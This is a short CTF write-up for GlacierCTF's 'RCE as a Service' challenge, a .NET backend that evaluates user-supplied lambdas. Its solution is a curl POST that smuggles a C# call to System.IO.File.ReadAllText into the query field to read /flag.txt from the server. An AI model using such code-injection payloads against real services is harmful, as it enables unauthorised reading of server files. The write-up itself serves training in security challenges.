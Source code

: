 # Challenge

Cloud computing is trending? Says your grandpa!

Edge Computing is the future! And the future is now. Today!

Give us a lambda and an array to operate on and our modern .NET6-powered backend will compute the results on an edge near your user in no time.

But please don't try to run custom code, because this incident will be reported.

(Goal: Read flag.txt at the filesystem's root.)

https://rce-as-a-service-1.ctf.glacierctf.com

# Writeup

We can execute a lambda on the server. To read the flag, we can use `System.IO.File.ReadAllText`:

```shell
curl --request POST \
--url https://rce-as-a-service-1.ctf.glacierctf.com/rce \
--header 'Content-Type: application/json' \
--data '{
"Data": ["hello", "crypto", "lena"],
"Query": "(data) => data.Select(d => System.IO.File.ReadAllText(@\"/flag.txt\"))"
}'
# => glacierctf{ARE_YOU_AN_3DG3L9RD?}
```